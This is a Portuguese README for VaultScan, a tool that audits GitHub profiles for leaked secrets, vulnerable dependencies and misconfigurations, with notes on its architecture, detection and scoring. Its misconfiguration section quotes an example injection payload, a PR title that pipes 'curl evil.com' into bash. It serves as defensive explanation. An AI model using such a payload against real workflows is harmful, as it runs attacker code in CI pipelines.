

<div align="center">
  
</div>

<br />

<div align="center">
  <h1>VaultScan</h1>
  <p><strong>Auditoria de segurança para portfólios GitHub.</strong><br/>
  Cole qualquer URL de perfil e receba um relatório completo em segundos.</p>

  <p>
    
    
    
    
    
    
  </p>

  <p>
    <a href="#o-que-é-o-vaultscan">O que é</a> ·
    <a href="#arquitetura">Arquitetura</a> ·
    <a href="#algoritmo-de-detecção">Algoritmo</a> ·
    <a href="#pontuação">Pontuação</a> ·
    <a href="#instalação">Instalação</a> ·
    <a href="#roadmap">Roadmap</a>
  </p>
</div>

---

## O que é o VaultScan?

O VaultScan varre **todos os repositórios públicos** de qualquer usuário do GitHub e entrega um relatório de segurança dividido em três categorias:

| Categoria | O que é verificado |
|-----------|-------------------|
| 🔑 **Segredos vazados** | 40+ padrões: chaves AWS, tokens GitHub, Stripe, Slack, GCP, Azure, SendGrid, Twilio, Firebase, Discord e outros |
| 📦 **CVEs conhecidos** | Dependências cruzadas com o banco [OSV](https://osv.dev) — npm, PyPI, Go, RubyGems, crates.io e Packagist |
| ⚙️ **Más configurações** | Injeção em GitHub Actions, `permissions: write-all`, containers rodando como root, senhas fracas no docker-compose, `DEBUG=True` em produção |

Cada repositório recebe uma **pontuação de 0 a 100** e o perfil inteiro ganha uma nota geral ponderada.

---

## Arquitetura

```
Navegador (polling a cada 800ms)
    │
    │  POST /api/scan/:usuario
    ▼
NestJS ScanController
    │
    ▼
ScanService ──► Bull Queue (Redis)
                    │
                    ▼
              ScanProcessor (job worker)
                    │
         Promise.all por repositório
                    │
        ┌───────────┼───────────┐
        ▼           ▼           ▼
  secrets_scan  deps_scan  misconfig_scan   ← subprocessos Python
   (stdout=JSON) (stdout=JSON) (stdout=JSON)
   (stderr=PROGRESS:...)
        │           │           │
        └───────────┴───────────┘
                    │
               score.py (stdin → stdout)
                    │
    ScanService (Map em memória)
                    │
    Navegador ◄── GET /api/scan/result/:jobId
```

### Por que NestJS no backend?

NestJS resolve dois problemas ao mesmo tempo: organiza o código em módulos testáveis (`ScanModule`, `ScanController`, `ScanService`, `ScanProcessor`) e oferece integração nativa com Bull via `@nestjs/bull`. A alternativa seria Express puro, que exigiria montar a mesma estrutura manualmente. Para um projeto com pipeline assíncrona de múltiplos workers, a arquitetura modular do NestJS paga o overhead de setup.

### Por que Bull + Redis para a fila?

O scan de um portfólio grande pode levar minutos. Processar tudo de forma síncrona dentro de um `await` bloquearia o servidor para qualquer outra requisição. Com Bull, cada scan vira um job isolado com estado persistido no Redis — o servidor pode aceitar novos scans enquanto processa os anteriores, e o frontend consulta o progresso por polling.

A alternativa (WebSockets) teria melhor latência de notificação, mas exigiria gerenciar conexões persistentes e lidar com reconexão no cliente. O modelo de polling com 800ms de intervalo é suficientemente responsivo e significativamente mais simples de operar.

### Por que os scanners são scripts Python, não módulos Node?

Três razões práticas:

1. **Ecossistema de regex**: o Python compila expressões regulares de forma mais eficiente para buscas em volume de texto. O módulo `re` com `re.compile()` reutiliza o DFA entre chamadas sem overhead.

2. **Isolamento de falhas**: cada worker roda em um subprocesso separado. Se o parser de um `Cargo.toml` malformado gerar uma exceção não tratada, ele mata só aquele subprocesso — o job NestJS continua com os resultados dos outros dois scanners.

3. **Extensibilidade independente**: adicionar um novo padrão de regex ou um novo ecossistema de dependências não exige compilar ou restartar o backend Node. É um arquivo Python que pode ser editado e testado isoladamente com `python workers/secrets_scan.py https://github.com/user/repo`.

A comunicação entre Node e Python é simples: o `ScanProcessor` faz `child_process.spawn()`, lê `stdout` como JSON de findings e `stderr` linha a linha buscando o prefixo `PROGRESS:` para atualizar o estado do job em tempo real.

---

## Algoritmo de detecção

### 1. Scanner de segredos (`secrets_scan.py`)

O scanner recebe a URL do repositório e segue este fluxo:

**Passo 1 — TruffleHog como primeira opção**

Se o binário `trufflehog` estiver no `PATH`, o scanner o executa com `--only-verified`. Isso significa que o TruffleHog tenta autenticar cada segredo encontrado contra a API do respectivo provedor antes de reportar — falso-positivo praticamente zero. Se não estiver instalado, o processo volta para o scanner por regex (descrito abaixo).

**Passo 2 — Árvore de arquivos via GitHub API**

```
GET /repos/{owner}/{repo}/git/trees/{branch}?recursive=1
```

Isso retorna todos os blobs do repositório em uma única chamada, incluindo tamanho de cada arquivo. Usar a tree API em vez de navegar recursivamente pelos diretórios evita dezenas de chamadas adicionais.

**Passo 3 — Filtragem de arquivos elegíveis**

Nem todos os arquivos valem o custo de download. O filtro aplica três critérios:

- Tamanho máximo de 120 KB (arquivos maiores raramente contêm segredos — costumam ser dados ou binários)
- Extensão na lista de tipos relevantes (`.py`, `.js`, `.ts`, `.env`, `.yaml`, `.toml`, `.json`, e outros 15+)
- Presença na lista de nomes de alto valor independente de extensão (`id_rsa`, `credentials.json`, `.env.production`, etc.)
- Exclusão de diretórios ruidosos (`node_modules`, `vendor`, `.git`, `dist`)

O limite é 80 arquivos por repositório — número calibrado para cobrir a maioria dos projetos reais sem exceder o rate limit da API do GitHub.

**Passo 4 — Aplicação dos padrões**

Para cada arquivo elegível, o conteúdo é baixado via `raw.githubusercontent.com` e cada um dos 40+ padrões é testado com `re.search()`. Os padrões são organizados por especificidade decrescente: padrões específicos de provedor (ex.: `AKIA[0-9A-Z]{16}` para chaves AWS) têm prioridade sobre padrões genéricos (ex.: `(?i)api_?key\s*=\s*"..."`). Isso evita que um finding genérico mascare um finding específico mais acionável.

Um `seen_labels` por arquivo garante que o mesmo tipo de segredo não seja reportado mais de uma vez para o mesmo arquivo, mesmo que apareça em múltiplas linhas.

---

### 2. Scanner de dependências (`deps_scan.py`)

**Por que parsers manuais em vez de chamar gerenciadores de pacote?**

Chamar `npm list`, `pip list` ou `cargo tree` exigiria ter o ambiente instalado — inviável para escanear repositórios arbitrários. Os parsers do VaultScan leem diretamente os arquivos de manifesto via `raw.githubusercontent.com`, sem clonar o repositório ou instalar dependências.

Cada parser extrai um dicionário `{nome_do_pacote: versão}`:

| Arquivo | Parser | Detalhe |
|---------|--------|---------|
| `package.json` | JSON nativo | Lê `dependencies`, `devDependencies` e `peerDependencies`; remove prefixos de range (`^`, `~`, `>=`) |
| `requirements.txt` | Regex linha a linha | Captura apenas entradas com versão fixa (`==`); ignora linhas de URL e flags |
| `go.mod` | Parser de estado | Lida com blocos `require (...)` e declarações inline; ignora a diretiva `// indirect` |
| `Gemfile.lock` | Parser de estado | Navega para a seção `specs:` e captura apenas gems de profundidade 1 (quatro espaços de indentação) |
| `Cargo.toml` | Regex + fallback | Trata a forma curta `name = "version"` e a forma expandida `name = { version = "..." }` |
| `composer.json` | JSON nativo | Lê `require` e `require-dev`; ignora a entrada `php` que especifica a versão do runtime |

**Consulta ao OSV**

Todas as dependências de um arquivo são enviadas em uma única requisição à [OSV Batch API](https://google.github.io/osv.dev/api/):

```json
POST https://api.osv.dev/v1/querybatch
{
  "queries": [
    { "package": { "name": "lodash", "ecosystem": "npm" }, "version": "4.17.15" },
    { "package": { "name": "express", "ecosystem": "npm" }, "version": "4.17.1" }
  ]
}
```

Isso evita N chamadas individuais para N dependências. A resposta inclui o campo `severity` com score CVSS quando disponível, usado para classificar o finding em `critical` (≥9.0), `high` (≥7.0), `medium` (≥4.0) ou `low`.

---

### 3. Scanner de más configurações (`misconfig_scan.py`)

**GitHub Actions — injeção de código**

O vetor mais crítico que o scanner detecta: expressões `${{ github.event.pull_request.title }}`, `${{ github.event.issue.body }}` e outros contextos controlados pelo usuário interpolados dentro de steps `run:`. Isso permite que um atacante crie um PR com um título como `"; curl evil.com | bash #"` e execute código arbitrário no contexto do workflow.

O padrão de detecção cobre todos os campos do `github.event` documentados como não confiáveis pela própria documentação do GitHub: `pull_request.title`, `pull_request.body`, `issue.title`, `issue.body`, `comment.body`, `review.body`, `head_commit.message`, entre outros.

Além disso, o scanner detecta o padrão `pull_request_target` combinado com checkout do `head` do PR — uma combinação especialmente perigosa porque `pull_request_target` roda com as permissões completas do repositório destino, mas o checkout do head traz código de um fork não confiável.

**Dockerfile**

Dois problemas distintos são verificados:

- *Ausência de USER*: containers sem diretiva `USER` rodam como root por padrão. O scanner confirma que existe uma diretiva `USER` com valor diferente de `root` antes de considerar o container seguro.
- *Imagem sem tag fixada*: `FROM node:latest` ou `FROM node` sem tag produz builds não reproduzíveis — a imagem pode mudar entre deploys e introduzir vulnerabilidades silenciosamente.

**docker-compose**

O scanner busca dois padrões:

- `privileged: true` — dá ao container acesso irrestrito ao kernel do host, equivalente a acesso root na máquina
- Senhas de banco de dados padrão: detecta valores como `password`, `root`, `admin`, `secret`, `1234`, `changeme` nas variáveis `POSTGRES_PASSWORD`, `MYSQL_ROOT_PASSWORD` e equivalentes

**Arquivos de configuração**

Verifica `DEBUG=True`, `APP_DEBUG=true`, `FLASK_DEBUG=1` e `NODE_ENV=development` em arquivos `.env`, `settings.py`, `config.py` e equivalentes. Arquivos com sufixo `.example`, `.sample` ou `.template` são ignorados automaticamente — eles são intencionalmente placeholders.

---

## Pontuação

Cada repositório começa com **100 pontos**. Cada finding deduz:

| Severidade | Dedução |
|------------|---------|
| `critical` | −25 pts |
| `high`     | −15 pts |
| `medium`   | −5 pts  |
| `low`      | −2 pts  |

O score é limitado a `[0, 100]`. Um repositório sem findings mantém 100. Um repositório com uma chave AWS exposta já cai para 75 — combinado com qualquer outra vulnerabilidade, fica rapidamente em zona crítica.

A **nota do portfólio** é a média simples dos scores de todos os repositórios escaneados. Repositórios que falharam durante o scan (timeout de API, erro de rede) recebem 50 por padrão — neutros, para não distorcer a média.

A classificação final:

| Score | Label |
|-------|-------|
| ≥ 80  | Secure |
| 50–79 | At Risk |
| < 50  | Critical |

**Por que esse modelo de dedução e não percentual?**

Percentual exigiria normalizar pelo número de arquivos ou dependências, o que tornaria a nota incomparável entre repositórios grandes e pequenos. O modelo de dedução fixa é simples, auditável e produz resultados intuitivos: um único segredo crítico é o suficiente para fazer um repositório entrar na zona de risco.

---

## Instalação

### Pré-requisitos

| Ferramenta | Versão mínima |
|------------|--------------|
| Node.js    | 18+          |
| Python     | 3.9+         |
| Redis      | 6+ (ou Docker) |

### Passo a passo

```bash
# Clone o repositório
git clone https://github.com/icarogoggin/vaultscan
cd vaultscan

# Suba o Redis
docker compose up -d redis

# Configure as variáveis de ambiente
cp .env.example backend/.env
# Edite backend/.env e adicione seu GITHUB_TOKEN (opcional, mas recomendado)

# Instale e inicie o backend
cd backend && npm install && npm run start:dev

# Em outro terminal, inicie o frontend
cd frontend && npm install && npm run dev
```

Abra **http://localhost:5173**, cole qualquer URL de perfil GitHub e clique em **Scan**.

### Token do GitHub (recomendado)

Sem token, a API do GitHub limita a **60 requisições por hora** — insuficiente para perfis com muitos repositórios.

1. Acesse [github.com/settings/tokens](https://github.com/settings/tokens)
2. Clique em **Generate new token (classic)**
3. Deixe **todos os escopos desmarcados** — o VaultScan só lê dados públicos
4. Adicione em `backend/.env`:

```env
GITHUB_TOKEN=ghp_seu_token_aqui
```

Com o token, o limite sobe para **5.000 requisições por hora**.

---

## Variáveis de ambiente

| Variável | Padrão | Descrição |
|----------|--------|-----------|
| `REDIS_HOST` | `127.0.0.1` | Host do Redis |
| `REDIS_PORT` | `6379` | Porta do Redis |
| `PORT` | `3000` | Porta HTTP do backend |
| `GITHUB_TOKEN` | — | Personal Access Token do GitHub |
| `PYTHON_CMD` | `python` | Executável Python (`python3` em alguns sistemas) |
| `SCAN_CONCURRENCY` | `6` | Máximo de repos escaneados em paralelo |

---

## TruffleHog (opcional)

Quando o [TruffleHog](https://github.com/trufflesecurity/trufflehog) está instalado e disponível no `PATH`, o VaultScan o usa automaticamente com `--only-verified` — cada segredo encontrado é verificado ativamente contra a API do provedor antes de ser reportado, praticamente eliminando falsos positivos. Se não estiver instalado, o scanner regex funciona como fallback transparente.

```bash
# macOS
brew install trufflesecurity/trufflehog/trufflehog

# Linux / Windows
# Baixe o binário em: https://github.com/trufflesecurity/trufflehog/releases
```

---

## Limitações conhecidas

- **Sem persistência**: os resultados de scan ficam em um `Map` em memória no backend. Um restart do servidor apaga todos os jobs. A persistência em banco de dados está no roadmap.
- **Apenas HEAD**: o scanner analisa os arquivos na branch padrão atual. Segredos removidos em commits recentes mas presentes no histórico git não são detectados. A varredura de histórico está no roadmap.
- **Sem escalonamento horizontal**: a arquitetura atual assume uma única instância do backend. Para múltiplas instâncias, o `Map` precisaria ser substituído por Redis ou banco de dados.
- **Rate limit sem token**: 60 req/hora da API pública do GitHub é suficiente para perfis pequenos, mas pode não completar portfólios maiores.

---

## Roadmap

Contribuições nessas áreas são especialmente bem-vindas:

- [ ] Persistência de scans em banco de dados
- [ ] Varredura do histórico de commits (não só o HEAD)
- [ ] Suporte a GitLab e Bitbucket
- [ ] Exportação de relatórios em PDF e JSON
- [ ] Novos ecossistemas: Maven (Java), NuGet (.NET), Swift Package Manager
- [ ] Integração com GitHub Actions — rodar o VaultScan como check em PRs
- [ ] Dashboard organizacional — visão de segurança para organizações inteiras
- [ ] API pública REST documentada

---

## Contribuindo

Contribuições são bem-vindas. Leia o [CONTRIBUTING.md](CONTRIBUTING.md) para entender o fluxo de trabalho e as convenções do projeto.

```bash
# Fluxo básico
git checkout -b feat/sua-feature
# implemente, teste
git push origin feat/sua-feature
# abra um Pull Request
```

Para testar um worker isoladamente:

```bash
python workers/secrets_scan.py https://github.com/usuario/repo
python workers/deps_scan.py https://github.com/usuario/repo
python workers/misconfig_scan.py https://github.com/usuario/repo
```

> **Licença das contribuições:** Todo o código deste repositório está sob a licença MIT com autoria de **Ícaro Goggin**. Ao contribuir, você concorda que sua contribuição passa a integrar este projeto sob os mesmos termos, sem transferência de titularidade do projeto.

---

## Licença

MIT © 2025 [Ícaro Goggin](https://github.com/icarogoggin)
